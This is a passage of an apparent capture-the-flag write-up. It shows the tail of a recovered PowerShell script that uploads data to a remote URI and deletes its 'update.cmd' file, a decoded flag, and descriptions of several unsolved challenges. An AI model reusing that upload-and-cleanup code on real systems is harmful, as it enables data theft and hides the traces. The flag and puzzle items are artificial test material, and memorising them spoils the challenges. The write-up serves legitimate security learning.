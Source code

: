 ```powershell
) -join $LF
Invoke-RestMethod -Uri $Uri -Method Post -ContentType "multipart/form-data; boundary=`"$boundary`"" -Body $bodyLines | Out-Null
}
}
$ErrorActionPreference = "Continue"
}
catch {
$ErrorActionPreference = "Continue"
Write-Error "error"
}
Remove-Item .\update.cmd -Force -ErrorAction SilentlyContinue
```

This looks like the correct path and we can finally find the flag decrypting another base64 string.

```bash
❯ echo -n "ZmxhZyBpcyA4MTY4MTc3NS0yYTE0LTQ2MzktOGQyNC01MjYyZTUyMTI2N2Y=" | base64 -d
flag is 81681775-2a14-4639-8d24-5262e521267f
```

#### HOMEWORK (UNSOLVED by us)

```md
DESCRIPTION
Help your brother Billy with his homework.
He has been complaining that it is too difficult.
QUESTION
Solve the homework to reveal the answer in flag.txt
Homework
```

#### EMOJI ANALYSIS (UNSOLVED by us)

```md
DESCRIPTION
You find a strange note from your backpack.
PS! There is also a post-it-note on the backside of the paper where are written the following numbers 32 54 80 46 155.
QUESTION
Figure out what the note means and find the flag.
strange note: <https://static.ctftech.io/challs/encoded_story.html?_gl=1*1oieq6w*_ga*NzI4Nzc3OTA2LjE2NjQ4NjIzOTc.*_ga_MKDT1BJ3MH*MTY2NDk0OTc0MC4xMS4xLjE2NjQ5NDk3NDEuMC4wLjA.>
```

### SMART CITY

#### HEALTH CHECK

```md
DESCRIPTION
The city has set up a website to test the availability of different services.
The admins are seeing icmp request from the application to internal networks.
This is really strange as it should be able to ping only public IP addresses.
QUESTION
Help them to figure out what is going on.
They have assigned you an internal IP address of 172.20.10.2 to make the ping requests against from the application.
<http://env263.target03:1343/>
```
